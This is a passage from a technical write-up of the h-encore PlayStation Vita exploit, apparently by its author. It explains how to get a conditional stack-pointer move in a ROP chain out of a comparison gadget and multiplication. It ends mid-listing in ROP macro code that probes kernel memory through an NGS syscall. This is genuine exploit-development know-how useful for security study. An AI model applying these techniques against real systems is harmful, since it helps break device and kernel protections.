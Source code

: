 Now if we want to implement this in ROP we can of course not use branch instructions, as they set the program counter, not the stack pointer. What we need is a way to conditional move the stack pointer like this:

```c
if (ret == SCE_NGS_ERROR_INVALID_PARAM)
  sp = loop_start;
else
  sp = loop_end;
```

In ARM there exists the `it (if-then)` instruction which allows us to conditional move a register like `it eq ; moveq r0, r1`. Unfortunately there is no such gadget available in our executable.
However, we have got this gadget here:

```c
int cmp_eq(int r0, int r1) {
  if (r0 == r1)
    return 1;
  else
    return 0;
}
```

Let's see how we can use it to realize our instruction by exploiting the zero property and identity property of multiplication. Previously we wanted to set `sp` to either `loop_start` or `loop_end` - this time we use a temporary register and set it to either "something" or "nothing":

```c
if (ret == SCE_NGS_ERROR_INVALID_PARAM)
  tmp = loop_start - loop_end;
else
  tmp = 0;
sp = tmp + loop_end;
```

The mentioned properties say that the product of any number times zero is zero and the product of any number times one is itself, therefore if we can set `tmp ` as the product of `cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM)` times `loop_start - loop_end`, we get our desired logic:

```c
sp = (cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM) * (loop_start - loop_end)) + loop_end;
```

Note that this is only one of the few possibilities and we could also have realized it by exploiting the properties of logical conjunction:

```c
sp = ((cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM) - 1) & (loop_end - loop_start)) + loop_start;
```

Finally in ROP it looks like this (it's cute but check out [mul_add_rvv](https://github.com/TheOfficialFloW/h-encore/blob/master/include/macros.S#L143)):

```c
  // Iterate through kernel memory
  loop_start:
    // kstack_base += KSTACK_BASE_STEP
    load_add_store kstack_base, kstack_base, KSTACK_BASE_STEP

    // rack_desc.pVoiceDefn = kstack_base ^ SCE_NGS_VOICE_DEFINITION_XOR
    xor_rv   ret, SCE_NGS_VOICE_DEFINITION_XOR
    store_rv ret, rack_desc + 0x00

    // Call sceNgsRackGetRequiredMemorySize on the xor'ed kstack_base
    load_call_lvv_2 sceNgsRackGetRequiredMemorySize, sys_handle, rack_desc, buffer_info + 0x04

    // Compare ret with SCE_NGS_ERROR_INVALID_PARAM and return 1 if equal, else 0
    cmp_eq_rv ret, SCE_NGS_ERROR_INVALID_PARAM

    // ret = ret * (loop_start - loop_end) + loop_end
```